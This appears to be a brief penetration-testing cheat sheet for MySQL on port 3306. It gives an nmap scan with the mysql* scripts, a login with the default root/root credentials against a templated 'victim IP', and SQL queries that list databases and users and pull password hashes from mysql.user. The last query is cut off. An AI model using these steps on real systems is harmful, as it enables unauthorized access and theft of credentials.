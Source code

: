 Find credential with other port and use default to login

```sh
nmap -sV -Pn -vv -script=mysql* <% tp.frontmatter["IPVictima"] %> -p 3306
```

```sh
mysql -u root -p 'root' -h <% tp.frontmatter["IPVictima"] %> -P 3306
```

```sql
select version(); | show databases;  | use databse | select * from users; | show tables |  select system_user(); | SELECT user, authentication_string FROM mysql.user WHERE user = Pre
```
